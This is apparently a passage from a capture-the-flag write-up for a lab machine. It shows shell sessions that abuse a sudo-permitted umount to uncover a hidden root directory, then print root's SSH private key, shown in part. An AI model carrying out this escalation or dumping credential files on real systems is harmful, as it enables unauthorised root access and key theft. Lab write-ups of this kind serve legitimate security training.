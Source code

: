 ```bash
varg@cchq:~$ cat /etc/fstab
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
# <file system> <mount point>   <type>  <options>       <dump>  <pass>
# / was on /dev/ubuntu-vg/ubuntu-lv during curtin installation
/dev/disk/by-id/dm-uuid-LVM-mrAx163lW73D8hFDlydZU2zYDwkd7tgT28ehcZQNMmzJmc0XKYP9m3eluIT1sZGo	/	ext4	defaults	0 0
# /boot was on /dev/sda2 during curtin installation
/dev/disk/by-uuid/6885d03d-f1fb-4785-971e-2bb17a3d22e3	/boot	ext4	defaults	0 0
#/swap.img	none	swap	sw	0 0
/home/varg/cooctOS_src	/opt/CooctFS	none	defaults,bind	0 0
```

<p>or</p>

```bash
varg@cchq:~$ df -ha | grep opt
/dev/mapper/ubuntu--vg-ubuntu--lv   19G  6.6G   12G  38% /opt/CooctFS
```

<br>
<br>

```bash
varg@cchq:/opt$ sudo /bin/umount /opt/CooctFS
varg@cchq:/opt$ cd CooctFS
varg@cchq:/opt/CooctFS$ ls
root
varg@cchq:/opt/CooctFS$ cd root
varg@cchq:/opt/CooctFS/root$ ll
total 28
drwxr-xr-x 5 root root 4096 Feb 20  2021 ./
drwxr-xr-x 3 root root 4096 Feb 20  2021 ../
lrwxrwxrwx 1 root root    9 Feb 20  2021 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Feb 20  2021 .bashrc
drwx------ 3 root root 4096 Feb 20  2021 .cache/
drwxr-xr-x 3 root root 4096 Feb 20  2021 .local/
-rw-r--r-- 1 root root   43 Feb 20  2021 root.txt
drwxr-xr-x 2 root root 4096 Feb 20  2021 .ssh/
```


```bash
varg@cchq:/opt/CooctFS/root$ cat root.txt
hmmm...
No flag here. You aren't root yet.
```

```bash
varg@cchq:/opt/CooctFS/root/.ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAx2+vTyYoQxGMHh/CddrGqllxbhNo3P4rPNqQiWkTPFnxxNv6
5vqc2vl5vd3ZPcOHp3w1pIF3MH6kgY3JicvfHVc3phWukXuw2UunYtBVNSaj6hKn
DwIWH3xCnWBqG6BR4dI3woQwOWQ6e5wcKlYz/mqmQIUKqvY5H3fA8HVghu7ARSre
9lVwzN4eat2QPnK0BbG3gjhLjpN0ztp0LrQI1SCwBJXSwr5H8u2eU25XVVmmEvdY
+n9+v+Mon2Ne7vCobNjv4MMzXal50BlwlhNtwgwt1aWgNOyPhQFE6ceg4lGEWOUq
Jz2sMB4GzqER8/G9ESan7UOtrarhvHtC+l5g2QIDAQABAoIBAC9qKRa7LqVLXbGn
wVa9ra/AVgxihvLLZsIwAF764Tze8XDpD8ysVnBlEYGHZeeePfkeua4jrY+U/E1k
xT6Cfsf9/Vf6Haeu7Yurxd7jQu7BAgVba+ZQi6vuofPCgVeSFQWIMgOH4+MxJgpP
Qg76sZ/SATajqraclVYa5X8FmO5bF1MEqFLtszsGR0QDgY21o0DSaeou5F1WRPJ6
Q8EogxMj2G393BrlZfdoL4j/3iZoEwFwEtMc9SX435bnxcEnv+x4lDmC1MRY1TgZ
fx558Lswfnz5FIl1HCHIVvOKnTFq16O7fAoCldVDCaRr+SDbOk71UDxcQN2SgMDH
...
```